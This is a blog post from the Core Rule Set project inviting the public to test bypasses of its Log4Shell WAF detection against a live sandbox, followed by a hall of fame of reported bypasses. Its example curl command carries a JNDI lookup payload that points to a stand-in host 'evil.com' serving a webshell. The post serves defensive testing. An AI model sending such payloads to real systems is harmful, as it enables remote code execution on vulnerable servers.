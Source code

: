 ```yaml
---
author: Christian Folini
categories:
  - Blog
date: '2021-12-16T13:01:59+01:00'
guid: https://coreruleset.org/?p=1564
id: 1564
permalink: /20211216/public-hunt-for-log4j-log4shell-evasions-waf-bypasses/
title: Public Hunt for log4j / log4shell Evasions / WAF Bypasses
url: /2021/12/16/public-hunt-for-log4j-log4shell-evasions-waf-bypasses/
---
```



We have been updating our detection for the infamous CVE-2021-44228 vulnerability and its siblings for several days now. With the new experimental rule 1005, we think we really have decent detection capabilities now. Read up on this development in the separate blog post [CRS and Log4j / Log4Shell / CVE-2021-44228](https://coreruleset.org/20211213/crs-and-log4j-log4shell-cve-2021-44228/).  
  
Right before the log4j CVE was published, we took up our [CRS Sandbox](https://coreruleset.org/20211209/introducing-the-crs-sandbox/) that lets you test payloads against various CRS installations.  
  
We have now combined the [](https://coreruleset.org/20211209/introducing-the-crs-sandbox/)CRS Sandbox and the log4j detection to give you access to a live system with our new rule 1005 (and the expanded 932130). Successful bypasses will be listed in the Hall-of-Fame below.

#### How test my bypass?

```
<pre class="wp-block-preformatted">$ curl -H 'x-crs-version: 3.4.0-dev-log4j' -H 'x-format-output: txt-matched-rules' -H 'User-Agent: ${jndi:ldap://evil.com/webshell}' https://sandbox.coreruleset.org/
```

The important bit is the custom HTTP header `x-crs-version: 3.4.0-dev-log4j`:[ ](<x-crs-version: 3.4.0-dev-log4j>)With this version string you get onto our new instance that carries the latest versions of the log4j attack detection. The other instances are vanilla CRS tags. They won't get the new rules / capabilities until we do a new release (and given we're usually not add new rules to existing stable releases in order to avoid introducing new false positives, this won't be anytime soon).

#### Rules to get into the Hall-of-Fame

You need to do three things:

- You need to pull off a bypass against the sandbox.
- You need to tell us about the bypass by submitting your payload via mail to security at coreruleset.org.
- You need to declare that this is in fact a working exploit.

We do not have the capacity to determine whether bypasses actually work as an exploit against log4j. So we kind of need to take your word for it.

If somebody in the community has the knowledge and the capacity to support us with this discussion, then please get in touch.

#### Hall-of-Fame

- Dominik Strecker, Syracom Schweiz AG : *Bypass via an XML attribute due to broken XPath selector in our rule 1005.*

##### Honorary mentions

- *Denis Augsburger ([@denisaugsburger](https://twitter.com/denisaugsburger)), TWTeam Switzerland : Bypass of rule 1005 with a spectacular evasion, that was detected by extended rule 932130*
- *Matej Sustr, Slovakia: Bypass of rule 1005 with an alternative evasion to Denis Augsburger's bypass, also detected by rule 932130*.
- *Matej Sustr, Slovakia: Bypass of rule set with an interesting evasion that depends on server side decoding before hitting log4j*.

Denis Augsburger has found a way around 1005 and we might have to update the rule. The problem is that his evasion is exploiting a fundamental mis-conception of our rule. We still think we are on the safe side thanks to 932130, but investigation continues.

The 2nd bypass of Matej Sustr is also very interesting because it goes undetected entirely. It exploit a vanilla log4j, though. It takes a special use case where Java code decodes the payloads before sending it to log4j.

#### Changelog

2021-12-16 12:30 CET: Published  
2021-12-20 10:30 CET: Added Dominik Strecker to hall of fame  
2021-12-20 14:00 CET: Added Syracom Schweiz AG to Dominik's name  
2021-12-23 16:40 CET: Added Denis Augsburger, TWTeam, under Honorary mentions  
2022-01-07 14:30 CET: Added Matej Sustr under Honorary mentions